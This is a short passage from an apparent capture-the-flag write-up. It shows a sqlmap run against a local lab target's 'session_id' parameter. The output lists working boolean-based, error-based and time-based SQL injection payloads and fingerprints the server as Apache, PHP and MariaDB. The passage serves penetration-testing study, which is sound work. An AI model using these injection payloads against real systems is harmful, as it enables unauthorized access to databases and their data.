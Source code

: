 ![Screenshot from 2022-07-18 12-52-54](notes/images/Screenshot%20from%202022-07-18%2012-52-54.png)

We can now check if it is injectable:

```bash
sqlmap -r pandora.req --batch

GET parameter 'session_id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 251 HTTP(s) requests:
---
Parameter: session_id (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: session_id=-6261' OR 8367=8367#

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: session_id=1' OR (SELECT 6089 FROM(SELECT COUNT(*),CONCAT(0x716b627171,(SELECT (ELT(6089=6089,1))),0x7170706a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- mNaD

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: session_id=1' AND (SELECT 2057 FROM (SELECT(SLEEP(5)))MjXV)-- agCG
---
[12:54:37] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 20.10 or 19.10 or 20.04 (focal or eoan)
web application technology: Apache 2.4.41, PHP
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[12:54:38] [INFO] fetched data logged to text files under '/home/hanato/.local/share/sqlmap/output/localhost'

[*] ending @ 12:54:38 /2022-07-18/
```